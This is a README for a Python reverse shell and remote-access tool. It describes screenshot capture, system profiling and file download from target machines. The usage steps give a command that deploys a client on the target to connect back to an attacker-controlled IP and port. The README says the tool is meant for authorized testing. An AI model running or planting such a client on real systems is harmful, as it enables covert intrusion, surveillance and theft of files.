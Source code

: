 # 🔒 Python Reverse Shell 🖥️

## 📋 Overview
This project provides a robust and feature-rich implementation of a reverse shell written in Python. The implementation includes both client and server components, allowing for remote system access and management.

## ✨ Features
- 🔍 **System Information Gathering**: Collect detailed information about the target system
- 📸 **Screenshot Capture**: Remotely capture screenshots from the target
- 📥 **File Download**: Download files from the target system
- 📢 **Broadcast Commands**: Send commands to multiple connected clients
- 🌐 **Cross-Platform**: Works on Windows, Linux, and macOS

## 🛠️ Requirements
The following Python packages are required:
```
psutil
mss
colorama
```

## 📦 Installation
1. Clone the repository:
```bash
git clone https://github.com/yourusername/reverse-shell.git
cd reverse-shell
```

2. Install the required dependencies:
```bash
pip install -r requirements.txt
```

## 💻 Usage

### Setting up the server
Run the server component on your machine (the attacker):
```bash
python server.py --port 4444
```

### Running the client
Deploy and run the client component on the target machine:
```bash
python client.py --server 192.168.1.100 --port 4444
```

### Available Commands
Once connected, you can use various commands:
- `sysinfo`: Gather system information
- `screenshot`: Capture a screenshot
- `download <filename>`: Download a file from the target
- `broadcast <command>`: Send a command to all connected clients
- `help`: Display available commands

## ⚠️ Security Warning
**IMPORTANT**: This tool is designed for educational purposes, security testing, and system administration only. Unauthorized access to computer systems is illegal and unethical.

- Only use this tool on systems you own or have explicit permission to test
- Do not use for malicious purposes
- The authors are not responsible for any misuse or damage caused by this program

## 📄 License
This project is licensed under the MIT License - see the LICENSE file for details.
